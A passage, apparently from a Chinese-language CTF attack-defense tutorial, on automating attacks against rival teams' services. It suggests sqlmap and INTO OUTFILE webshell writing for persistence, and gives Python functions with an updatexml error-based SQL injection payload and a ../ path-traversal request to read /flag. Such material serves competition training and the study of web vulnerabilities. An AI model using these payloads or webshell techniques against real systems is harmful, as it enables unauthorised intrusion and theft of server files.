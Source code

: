 	f.close()
	f1.close()



配置一下其他队伍地址、shell路径和密码，就可以进行攻击，flag记录在firstround_flag.txt中，某次比赛实际情况如下：    
![ctf4](/assets/themes/images/ctf/4.png)  

4.常见漏洞  
常见的漏洞包括SQL注入、文件包含、文件上传等等。对于SQL注入类的漏洞，一般不会有过滤，可以用sqlmap跑出来，再利用—sql-shell执行select load_file(‘/flag’);即可得到flag，也可以利用into outfile写木马维持权限，但要根据实际情况，可能会遇到权限问题。用sqlmap跑比较耗时，可以利用payload写一个python，自动化进行攻击：  


	def sqli(host):
	    global sess_admin
	    data = {"section_name":"asd","admin_name":"'||(SELECT updatexml(1,concat(0x7e,(select load_file('/flag')),0x7e),1))||'","announcement":"asd"}
	    r = sess_admin.post('http://%s/index.php/section/add'%host,data=data)
	    flags = re.findall(r'~(.+?)~',r.content)
	    if flags:
	        return flags[0]
	    else:
	        return "error pwn!"



对于文件包含漏洞，直接可以通过../../../../../../flag的方式获取：  

	def include(host):
	    r = requests.get(url="http://%s/?t=../../../../../../flag"%host)
	    flags = re.findall(r'^(.+?)<',r.content)
	    if flags:
	        return flags[0]
	    else:
	        return "error pwn!"
